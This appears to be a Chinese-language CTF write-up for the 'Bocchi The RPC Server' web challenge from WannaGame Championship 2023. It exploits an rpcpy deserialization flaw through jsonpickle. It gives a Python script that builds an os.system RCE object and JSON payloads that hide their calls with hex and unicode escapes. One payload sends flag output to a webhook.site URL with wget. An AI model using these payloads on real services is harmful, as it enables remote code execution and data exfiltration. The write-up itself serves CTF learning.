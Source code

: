 https://nguyendt.hashnode.dev/wannagame-championship-2023
# web
### Bocchi The RPC Server
一个rpc服务器
rpcpy存在[漏洞](https://github.com/ehtec/rpcpy-exploit/)
但是payload里利用的是pickle,题目中注释掉了
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231206233250.png)


可以使用jsonpickle绕过,记得用linux!!
```python
from typing import Any
import requests

import jsonpickle


class PickleRce(object):
    def __reduce__(self):
        import os
        return os.system, ("whoami",)


# 序列化对象为JSON字符串
json_str=jsonpickle.encode(PickleRce())
print(json_str)

```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231207000506.png)
然后unicode绕过

---

payload
```json
{
    "name": {
        "py/repr": "binascii/().__class__.__base__.__subclasses__().__getitem__(107).load_module(binascii.unhexlify('6f73').decode()).popen(binascii.unhexlify('2e2e2f72656164666c6167').decode()).read()"
    }
}
```

unicode绕过
```json
{
    "name": {
        "py/reduce": [
            {
                "py/function": "p\u006fsix.s\u0079stem"
            },
            {
                "py/tuple": [
                    "wget https://webhook.site/dfb8094f-ab17-41b5-93fa-e6c353fd4fbd --p\u006fst-data $(/readflag)"
                ]
            }
        ]
    }
}
```


### 

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-06   22:26